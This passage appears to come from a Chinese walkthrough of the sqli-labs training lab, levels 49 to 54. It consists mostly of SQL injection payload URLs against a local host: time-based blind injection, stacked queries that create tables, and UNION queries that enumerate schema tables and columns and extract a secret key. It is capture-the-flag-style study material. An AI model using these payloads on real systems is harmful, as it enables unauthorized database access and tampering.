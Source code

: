 `http://127.0.0.1/sqli/Less-49/?sort=1' and if(mid(database(),1,1)='s',sleep(5),1)--+`

***

**Less-50**

order by注入与堆叠注入

`http://127.0.0.1/sqli/Less-50/?sort=1;create table aaa like users`

***

**Less-51**

同上，单引号闭合

`http://127.0.0.1/sqli/Less-50/?sort=1';create table aaa like users--+`

***

**Less-52**

同Less-50，payload完全相同

***

**Less-53**

同Less-51,payload完全相同

***

***

**Less-54**

从这一关开始进行实战注入，限制十次尝试机会，且每次的表名列名字段名随机

![](https://upload-images.jianshu.io/upload_images/11356161-acfa56eb4db6e9eb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

payload依次为：

`http://127.0.0.1/sqli/less-54/index.php?id=1'`

`http://127.0.0.1/sqli/less-54/index.php?id=1' order by 3--+`

`http://127.0.0.1/sqli/less-54/index.php?id=1' order by 4--+`

`http://127.0.0.1/sqli/less-54/index.php?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='CHALLENGES'--+`

爆出表名为`p08ie9rpnc`

`http://127.0.0.1/sqli/less-54/index.php?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='p08ie9rpnc'--+`

爆出列名为`id,sessid,secret_1A88,tryy`

`http://127.0.0.1/sqli/less-54/index.php?id=-1' union select 1,group_concat(secret_1A88),3 from p08ie9rpnc--+`

爆出secret key并提交`YsQHctIhjx2pxHXeva7di5dj`

